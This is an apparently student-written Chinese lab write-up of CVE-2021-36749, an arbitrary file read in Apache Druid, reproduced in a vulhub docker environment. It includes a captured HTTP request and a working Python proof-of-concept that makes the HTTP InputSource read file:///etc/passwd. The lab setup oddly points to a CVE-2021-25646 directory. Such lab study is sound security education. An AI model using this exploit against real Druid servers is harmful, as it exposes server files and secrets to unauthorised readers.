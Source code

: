 ## CVE-2021-36749

> @Author:张博翔（bx33661）
>
> @课程：高级程序设计（Python）
>
> Apache Druid LoadData 任意文件读取漏洞



[TOC]

### 介绍

> In the Druid ingestion system, the InputSource is used for reading data from a certain data source. However, the HTTP InputSource allows authenticated users to read data from other sources than intended, such as the local file system, with the privileges of the Druid server process. This is not an elevation of privilege when users access Druid directly, since Druid also provides the Local InputSource, which allows the same level of access. But it is problematic when users interact with Druid indirectly through an application that allows users to specify the HTTP InputSource, but not the Local InputSource. In this case, users could bypass the application-level restriction by passing a file URL to the HTTP InputSource. This issue was previously mentioned as being fixed in 0.21.0 as per CVE-2021-26920 but was not fixed in 0.21.0 or 0.21.1.
>
> ------
>
> 在Druid摄取系统中，InputSource用于从某个数据源读取数据。但是，HTTP InputSource允许经过身份验证的用户以Druid服务器进程的权限从预期以外的其他来源 (例如本地文件系统) 读取数据。当用户直接访问Druid时，这不是特权提升，因为Druid还提供本地InputSource，它允许相同级别的访问。但是，当用户通过允许用户指定HTTP InputSource而不是本地InputSource的应用程序间接与Druid交互时，这是有问题的。在这种情况下，用户可以通过将文件URL传递给HTTP InputSource来绕过应用程序级别的限制。此问题以前提到过，根据CVE-2021-26920在0.21.0中修复，但在0.21.0或0.21.1中未修复。



### 环境复现

需要本地安装docker环境和git环境

> 这里选择复现平台：https://github.com/vulhub/vulhub
>
> ![image-20241204190405167](https://gitee.com/bx33661/image/raw/master/path/image-20241204190405167.png)

```
git clone https://github.com/vulhub/vulhub.git
cd apache-druid
cd CVE-2021-25646
docker docker-compose up -d
```

![](https://gitee.com/bx33661/image/raw/master/path/image-20241015222003313.png)



### 分析-手动

进入容器：我这里IP是：`http://localhost:8888/`,进入了**druid**

![image-20241015223158685](https://gitee.com/bx33661/image/raw/master/path/image-20241015223158685.png)

点击*Load data* ，选择*HTTP(s)*

![image-20241015223343033](https://gitee.com/bx33661/image/raw/master/path/image-20241015223343033.png)

执行如下参数，验证文件读取：

- Source type : `http`
- URIs : `file:///etc/passwd`

![image-20241015222927290](https://gitee.com/bx33661/image/raw/master/path/image-20241015222927290.png)

这里是用`Yakit` 抓包

![image-20241015222841981](https://gitee.com/bx33661/image/raw/master/path/image-20241015222841981.png)

表内容为：

```http
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: localhost:8888
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Referer: http://localhost:8888/unified-console.html
Sec-Fetch-Dest: empty
Accept: application/json, text/plain, */*
Origin: http://localhost:8888
Sec-Fetch-Mode: cors
Content-Length: 423

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

执行入口在 ： `"uris":["file:///etc/passwd"]}`



### Poc编写

```python
import requests

# 定义 Druid 的 URL
url = "http://localhost:8888/druid/indexer/v1/sampler?for=connect"

# 定义请求头
header={
    'User-Agent': 'Mozilla/5.0(Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
}

# 定义请求数据
data = {
  "type": "index",
  "spec": {
    "type": "index",
    "ioConfig": {
      "type": "index",
      "inputSource": {
        "type": "http",
        "uris": ["file:///etc/passwd"]
      },
      "inputFormat": {
        "type": "regex",
        "pattern": "(.*)",
        "columns": ["raw"]
      }
    },
    "dataSchema": {
      "dataSource": "sample",
      "timestampSpec": {
        "column": "!!!_no_such_column_!!!",
        "missingValue": "1970-01-01T00:00:00Z"
      },
      "dimensionsSpec": {}
    },
    "tuningConfig": {
      "type": "index"
    }
  },
  "samplerConfig": {
    "numRows": 500,
    "timeoutMs": 15000
  }

}

# 发送请求
res = requests.post(url, headers=header, json=data,verify=False,allow_redirects=False)
# 打印验证结果结果
print(res.text)

```

验证成功：
![image-20241204185746094](https://gitee.com/bx33661/image/raw/master/path/image-20241204185746094.png)

